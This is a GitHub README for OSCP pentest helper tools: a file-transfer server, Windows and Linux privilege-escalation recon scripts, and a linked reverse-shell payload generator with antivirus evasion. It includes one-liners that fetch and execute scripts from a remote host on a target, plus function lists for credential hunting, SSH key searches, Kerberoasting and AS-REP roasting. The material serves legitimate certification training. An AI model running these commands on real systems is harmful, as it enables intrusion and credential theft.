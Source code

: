 # OSCP python support tools

A small set of python tools developed to pass OSCP, this set consists of 3 scripts:

- Servpy to start services to transfer files via smb, ftp, http, https, scp, nc or socat & easy downloading tools
- recon.ps1 to assist in the windows privilege escalation process
- recon.sh to assist in the linux privilege escalation process
- Shellpy to generate payloads for reverse shells, optionally obfuscated to evade antivirus and in macro format for malicious documents
  (Shellpy can be found here --> https://github.com/KermitPurple96/Shellpy)
  
## Install
- pip install pyftpdlib pyopenssl colorama psutil
- git clone https://github.com/KermitPurple96/OSCP-PythonSupportTools
- git clone https://github.com/KermitPurple96/Shellpy

## Usage

1. Download tools
```bash
toolpy -d mimikatz -d rubeus
```
![image](https://github.com/user-attachments/assets/a9d69157-f2e7-4659-8885-06eb56d6e8b6)


2. Load the script on Target Machine

For Linux
```bash
. <(curl 10.10.10.10/recon.sh)
```

For Windows
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))
```

Example funtions on windows:
```
PS> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))

     ___  __    ___   ___
    /___\/ _\  / __\ / _ \  _ __ ___  ___ ___  _ __
   //  //\ \  / /   / /_)/ | '__/ _ \/ __/ _ \| '_ \
  / \_// _\ \/ /___/ ___/  | | |  __/ (_| (_) | | | |
  \___/  \__/\____/\/      |_|  \___|\___\___/|_| |_|

========================================================
                                            DannyDB@~>

[*] Auxiliary Tools:
    - aux.upload [file]               : Upload files to HTTP server via POST
    - aux.download [file]             : Perform GET to retrieve files

[*] Auxiliary Recon:
    - recon.dateScan                  : Files modified between two dates
    - recon.dateLast                  : Files modified less than 15 minutes ago
    - recon.portscan <host> [1-1024]  : Perform port scanning
    - recon.pingscan 10.10.10.        : Perform ping scan of /24 subnet
    - recon.pspy                      : Similar to pspy script
    - recon.servInfo                  : Information abaut a server

[*] General Recon:
    - recon.sys                       : System information
    - recon.users                     : User information
    - recon.programs                  : Program information
    - recon.protections               : Protection information
    - recon.process                   : Process information
    - recon.networks                  : Network information
    - recon.acl                       : File permission information

[*] Privesc Recon:
    - priv.installElev                : AlwaysInstallElevated privilege
    - priv.serv.dir                   : Service directory privilege
    - priv.serv.reg                   : Service registry privilege
    - priv.serv.unq                   : Unquoted service privilege
    - priv.cred.files                 : Known credential files privilege
    - priv.cred.history               : Credential history privilege
    - priv.owned.files                : File owner privilege
    - priv.search.fname               : Credential in file name privilege
    - priv.search.fcontent            : Credential in file content privilege
    - priv.search.sshkeys             : SSH file privilege
    - priv.search.register            : Credential in registry privilege
    - priv.search.events              : Credential in events (Admin.) privilege
    - priv.autorun                    : Scheduled tasks privilege

[*] AD Recon:
    - ad.psremote                     : Remote PowerShell privilege
    - ad.computers                    : Domain computers privilege
    - ad.users                        : Domain users privilege
    - ad.user <user>                  : Information about a user
    - ad.listusers                    : List common names for bruteforce
    - ad.groups                       : Domain groups privilege
    - ad.group <group>                : Information about a group
    - ad.spn                          : Kerberoasting accounts
    - ad.asrep                        : AS-REP Roasting users privilege

```


## Configuration

- On httpTempServ.py add your own into SHORTCUTS dictionary, add your own aliases pointing the file path to quickly access.
- Make sure that the aliases for recon.sh and recon.ps1 point to the correct path in your file system.
